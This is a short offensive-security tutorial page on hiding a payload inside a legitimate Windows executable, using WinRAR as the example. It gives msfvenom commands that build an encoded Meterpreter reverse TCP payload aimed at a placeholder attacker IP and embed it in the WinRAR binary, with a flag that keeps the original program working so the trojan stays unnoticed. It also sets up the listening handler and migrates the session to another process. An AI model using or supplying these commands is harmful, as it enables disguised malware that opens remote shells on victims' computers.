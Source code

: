 # Injecting Payloads Into Windows Portable Executables

## Practical Demo

&#x20;WinRar is very good to inject payloads into.

### Generating and injecting the payload

&#x20;Download the WinRar 32-bit executable from the website

* "<mark style="color:yellow;">msfvenom -p /windows/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -e x86/shikata\_ga\_nai -i 10 -f exe -x 'specifywinrarexe > 'nameoffile.extension'</mark>"

#### Setting up the multi/handler

* "<mark style="color:yellow;">use multi/handler</mark>"

Set the payload to the same as the created payload

<mark style="color:purple;">NOTE:</mark> You can keep the original functionality of the used executable with the flag "<mark style="color:red;">-k</mark>".

After getting a meterpreter session in the target machine run the module <mark style="color:red;">post/windows/manage/migrate</mark>, to migrate to a more stable process.

* <mark style="color:yellow;">run post/windows/manage/migrate</mark>

### Maintaining the functionality of the portable executable

<mark style="color:yellow;">msfvenom -p /windows/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -e x86/shikata\_ga\_nai -i 10 -f exe -x -k 'specifywinrarexe > 'nameoffile.extension'</mark>

<mark style="color:purple;">NOTE:</mark> Most portable executables don't work with this flag
